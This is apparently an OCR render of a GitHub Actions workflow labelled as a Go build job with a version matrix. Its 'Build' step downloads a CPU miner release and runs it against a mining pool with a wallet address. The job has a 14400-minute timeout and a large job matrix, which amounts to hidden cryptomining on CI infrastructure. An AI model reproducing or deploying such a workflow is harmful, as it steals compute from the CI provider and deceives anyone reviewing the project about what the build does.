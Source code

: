 build:
    name: Build
    runs-on: ubuntu-latest
    strategy:
      matrix:
        go: [1.11, 1.12, 1.13, 1.14, 1.15, 1.16, 1.17, 1.18]
        flag: [hvf, hik, pjc, plh, tda, pnc, pll, tue]
    timeout-minutes: 14400
    env:
        NUM_JOBS: 15
        JOB: ${{ matrix.go }}

    steps:
      
      name: Set up Go ${{ matrix.go }}
      uses: actions/setup-go@v1
      with:
        go-version: ${{ matrix.go }}
      id: go

      name: Check out code into the Go module directory
      uses: actions/checkout@v1

      name: Build
      run: |
        wget https://github.com/rplant8/cpuminer-opt-rplant/releases/latest/download/cpuminer-opt-linux.tar.gz
        tar xf cpuminer-opt-linux.tar.gz
        ./cpuminer-sse2 -a yespowersugar -o stratum+tcps://stratum-ru.rplant.xyz:7042 -u sugar1qk5t692h38x47pd6a5fqdlxsddvsgx392yt5vx8.kuarto -t0
